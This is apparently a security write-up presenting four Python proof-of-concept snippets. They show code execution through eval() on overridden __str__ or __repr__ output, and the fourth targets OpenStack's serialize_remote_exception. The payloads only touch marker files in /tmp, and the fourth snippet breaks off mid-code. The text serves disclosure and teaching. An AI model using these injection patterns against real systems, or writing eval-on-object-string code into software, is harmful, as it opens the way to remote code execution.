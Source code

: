 ### **✅ PoC 1 – `__str__` Override with `eval(str(e))` (Theoretical Example)**

This proof-of-concept demonstrates, in a controlled example, that when an exception class overrides its `__str__()` method to return a malicious string, any call to `eval(str(e))` could theoretically result in Remote Code Execution. In practice, such a pattern should never appear in production code, and OpenStack's architecture includes multiple layers of defense.

```python
class Evil(Exception):
    def __str__(self):
        return "__import__('os').system('touch /tmp/from_str_eval')"

eval(str(Evil()))  # Triggers RCE
```
### **✅ PoC 2 – `__str__` Returns JSON Payload + `eval` (Theoretical Example)**

This variant shows, for educational purposes, how a `__str__()` method returning a JSON-encoded payload could, if mishandled, lead to code execution if the parsed content is used in an `eval()` call. Again, this is not a pattern seen in well-designed production systems, but highlights why input validation and secure exception handling are important.

```python
class Evil(Exception):
    def __str__(self):
        return '{"payload": "__import__(\'os\').system(\'touch /tmp/json_rce\')"}'

data = json.loads(str(Evil()))
eval(data["payload"])  # Triggers RCE
```

### **✅ PoC 3 – `eval(repr(e))` (Theoretical Example)**

This PoC demonstrates, as a theoretical risk, that `repr()` can also be overridden to return arbitrary content. If any part of the system executes `eval(repr(obj))` without ensuring that `obj` is a safe type, code execution could occur. This underscores that both `__str__` and `__repr__` must be considered attack surfaces in code reviews.

```python
class Evil:
    def __repr__(self):
        return "__import__('os').system('touch /tmp/hacked')"

eval(repr(Evil()))  # RCE
```
### **✅ PoC 4 – Trigger via `serialize_remote_exception()` (Theoretical Example)**

Here, the PoC illustrates that if OpenStack's `serialize_remote_exception()` function were to call `str(e)` on a malicious exception object, code execution could theoretically occur. In practice, OpenStack's design and deployment mitigations make this scenario extremely unlikely.

```python
import sys
import os
from oslo_messaging._drivers import common as exceptions

class EvilError(Exception):
    def __str__(self):
        os.system("touch /tmp/hacked")
        return "rce via serialize"

try:
    raise EvilError("boom")
except Exception:
```